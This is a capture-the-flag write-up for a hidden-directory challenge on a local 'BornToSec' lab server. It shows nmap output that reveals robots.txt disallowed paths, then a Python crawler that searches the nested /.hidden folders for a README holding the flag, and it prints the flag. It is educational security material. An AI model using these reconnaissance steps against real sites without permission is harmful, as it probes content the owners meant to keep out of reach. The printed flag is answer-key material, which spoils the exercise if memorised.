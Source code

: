 # Web crawling
- a process of automatically browsing and indexing content from websites
- a robots.txt file tells crawlers which URLs they can access on the site - this is mainly used to avoid overloading the site with requests
- https://www.zenrows.com/blog/web-crawler-python#prerequisites

<b>keywords</b>: guess (hidden file)<br>
<b>attacked site</b>: http://borntosec.42/.hidden/

## Exploit
Upon running <code>nmap</code> with the IP address of the server, we discover a <code>robots.txt</code> file that disallows two entries:
``` shell
└─$ nmap -sVC borntosec.42 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 19:27 EDT
Nmap scan report for borntosec.42 (192.168.56.106)
Host is up (0.00070s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.4.6 (Ubuntu)
|_http-title: BornToSec - Web Section
| http-robots.txt: 2 disallowed entries 
|_/whatever /.hidden
|_http-server-header: nginx/1.4.6 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds
```
When accessing <code>http://borntosec.42/.hidden</code>, we find the site contains many subsites, each with a <code>README</code> file. One of these files likely contains the flag. Instead of manually checking each file, we create a Python script to automate the crawling process:
``` shell
└─$ python3 crawler.py http://192.168.56.106/.hidden/ README flag

       / _ \
     \_\(_)/_/     Starting crawler at http://192.168.56.106/.hidden/
      _//o\\_      looking for file README containing keyword 'flag'
       /   \

Checking http://192.168.56.106/.hidden/whtccjokayshttvxycsvykxcfm/vsjtwjnsblouvdzmhzwwfiwimv/xhytouigdvshzvldngdskfmkpf/README
```
After some time, a match is found, and we receive the flag:
``` shell
     MATCH FOUND!

Contents of README at http://192.168.56.106/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README: 
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```
## Flag
d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
